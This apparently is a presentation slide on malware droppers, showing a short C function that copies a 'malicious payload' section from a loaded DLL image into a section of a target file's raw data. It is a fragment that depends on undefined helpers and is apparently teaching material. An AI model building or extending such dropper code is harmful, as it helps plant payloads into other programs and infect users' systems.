

Dropper Core Implementation-Copy malicious payload
VOID CopySectionData(LPCSTR SectionName, LPCSTR SrcName)
{
	// Get the base address of the malicious payload in the virtual space (dll image)
	BYTE* SrcData = (BYTE*)(GetSection(DllBase, SrcName)->VirtualAddress + DllBase);

	// Get the base address of the target section in the file space
	BYTE* DestData = (BYTE*)(GetSection(FileBase, SectionName)->PointerToRawData + FileBase);

	// copy memory
	memcpy(DestData, SrcData, GetSection(DllBase, SrcName)->SizeOfRawData);
}